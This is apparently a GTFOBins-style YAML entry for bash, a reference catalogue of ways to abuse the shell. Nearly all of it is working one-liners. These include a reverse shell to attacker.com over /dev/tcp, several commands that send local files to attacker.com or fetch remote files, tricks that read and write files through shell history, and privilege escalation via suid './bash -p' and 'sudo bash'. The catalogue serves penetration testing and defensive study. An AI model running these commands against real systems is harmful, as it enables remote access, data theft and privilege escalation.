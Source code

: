 ```yaml
---
functions:
  shell:
    - code: bash
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        bash -c 'bash -i &>/dev/tcp/$RHOST/$RPORT 0<&1'
  file-upload:
    - description: Send local file in the body of an HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_send
        bash -c 'echo -e "POST / HTTP/0.9\n\n$(<$LFILE)" > /dev/tcp/$RHOST/$RPORT'
    - description: Send local file using a TCP connection. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_send
        bash -c 'cat $LFILE > /dev/tcp/$RHOST/$RPORT'
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_get
        bash -c '{ echo -ne "GET /$LFILE HTTP/1.0\r\nhost: $RHOST\r\n\r\n" 1>&3; cat 0<&3; } \
            3<>/dev/tcp/$RHOST/$RPORT \
            | { while read -r; do [ "$REPLY" = "$(echo -ne "\r")" ] && break; done; cat; } > $LFILE'
    - description: Fetch remote file using a TCP connection. Run `nc -l -p 12345 < "file_to_send"` on the attacker box to send the file.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_get
        bash -c 'cat < /dev/tcp/$RHOST/$RPORT > $LFILE'
  file-write:
    - code: |
        export LFILE=file_to_write
        bash -c 'echo DATA > $LFILE'
    - description: This adds timestamps to the output file.
      code: |
        LFILE=file_to_write
        HISTIGNORE='history *'
        history -c
        DATA
        history -w $LFILE
  file-read:
    - description: It trims trailing newlines and it's not binary-safe.
      code: |
        export LFILE=file_to_read
        bash -c 'echo "$(<$LFILE)"'
    - description: The read file content is surrounded by the current history content.
      code: |
        LFILE=file_to_read
        HISTTIMEFORMAT=$'\r\e[K'
        history -r $LFILE
        history
  library-load:
    - code: bash -c 'enable -f ./lib.so x'
  suid:
    - code: "./bash -p"
  sudo:
    - code: sudo bash
---
```

